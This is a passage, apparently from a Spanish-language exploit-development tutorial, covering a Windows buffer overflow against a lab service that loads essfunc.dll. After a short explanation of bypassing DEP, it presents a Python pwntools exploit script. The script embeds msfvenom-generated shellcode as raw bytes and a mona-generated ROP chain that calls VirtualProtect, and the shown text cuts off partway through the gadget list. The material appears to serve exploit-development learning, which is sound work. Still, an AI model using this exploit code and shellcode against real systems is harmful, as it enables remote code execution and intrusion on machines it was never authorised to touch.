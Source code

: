 Hemos omitido el DEP de Windows, (después de probar otros dos resultados del mona, si no funciona con el primero hay que probar con todos los demás). 

Ya solo nos queda incorporar nuestro payload creado con msfvenom al exploit, quedaría así:

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

#CTRL+C
def def_handler(sig,frame):
	print("\n[!]Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

buf =  b""
buf += b"\xdb\xd1\xb8\xa8\xc9\xec\x25\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x31\x43\x17\x83\xc3\x04\x03\xeb\xda\x0e"
buf += b"\xd0\x17\x34\x4c\x1b\xe7\xc5\x31\x95\x02\xf4\x71\xc1"
buf += b"\x47\xa7\x41\x81\x05\x44\x29\xc7\xbd\xdf\x5f\xc0\xb2"
buf += b"\x68\xd5\x36\xfd\x69\x46\x0a\x9c\xe9\x95\x5f\x7e\xd3"
buf += b"\x55\x92\x7f\x14\x8b\x5f\x2d\xcd\xc7\xf2\xc1\x7a\x9d"
buf += b"\xce\x6a\x30\x33\x57\x8f\x81\x32\x76\x1e\x99\x6c\x58"
buf += b"\xa1\x4e\x05\xd1\xb9\x93\x20\xab\x32\x67\xde\x2a\x92"
buf += b"\xb9\x1f\x80\xdb\x75\xd2\xd8\x1c\xb1\x0d\xaf\x54\xc1"
buf += b"\xb0\xa8\xa3\xbb\x6e\x3c\x37\x1b\xe4\xe6\x93\x9d\x29"
buf += b"\x70\x50\x91\x86\xf6\x3e\xb6\x19\xda\x35\xc2\x92\xdd"
buf += b"\x99\x42\xe0\xf9\x3d\x0e\xb2\x60\x64\xea\x15\x9c\x76"
buf += b"\x55\xc9\x38\xfd\x78\x1e\x31\x5c\x15\xd3\x78\x5e\xe5"
buf += b"\x7b\x0a\x2d\xd7\x24\xa0\xb9\x5b\xac\x6e\x3e\x9b\x87"
buf += b"\xd7\xd0\x62\x28\x28\xf9\xa0\x7c\x78\x91\x01\xfd\x13"
buf += b"\x61\xad\x28\xb3\x31\x01\x83\x74\xe1\xe1\x73\x1d\xeb"
buf += b"\xed\xac\x3d\x14\x24\xc5\xd4\xef\xaf\x2a\x80\x05\xad"
buf += b"\xc3\xd3\xd9\xb3\xa8\x5d\x3f\xd9\xde\x0b\xe8\x76\x46"
buf += b"\x16\x62\xe6\x87\x8c\x0f\x28\x03\x23\xf0\xe7\xe4\x4e"
buf += b"\xe2\x90\x04\x05\x58\x36\x1a\xb3\xf4\xd4\x89\x58\x04"
buf += b"\x92\xb1\xf6\x53\xf3\x04\x0f\x31\xe9\x3f\xb9\x27\xf0"
buf += b"\xa6\x82\xe3\x2f\x1b\x0c\xea\xa2\x27\x2a\xfc\x7a\xa7"
buf += b"\x76\xa8\xd2\xfe\x20\x06\x95\xa8\x82\xf0\x4f\x06\x4d"
buf += b"\x94\x16\x64\x4e\xe2\x16\xa1\x38\x0a\xa6\x1c\x7d\x35"
buf += b"\x07\xc9\x89\x4e\x75\x69\x75\x85\x3d\x99\x3c\x87\x14"
buf += b"\x32\x99\x52\x25\x5f\x1a\x89\x6a\x66\x99\x3b\x13\x9d"
buf += b"\x81\x4e\x16\xd9\x05\xa3\x6a\x72\xe0\xc3\xd9\x73\x21"

def create_rop_chain():

# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	#[---INFO:gadgets_to_set_esi:---]
	0x772d234a,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
	0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
	0x76a6fdb6,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] ** REBASED ** ASLR
	0x76b41470,  # XCHG EAX,ESI # RETN [WS2_32.DLL] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_ebp:---]
	0x75adfcb1,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
	0x625011af,  # & jmp esp [essfunc.dll]
	#[---INFO:gadgets_to_set_ebx:---]
	0x77270b5d,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
	0xfffffdff,  # Value to negate, will become 0x00000201
	0x766b94ea,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
	0x75aa7926,  # XCHG EAX,EBX # RETN [msvcrt.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_edx:---]
	0x75b27dfb,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
```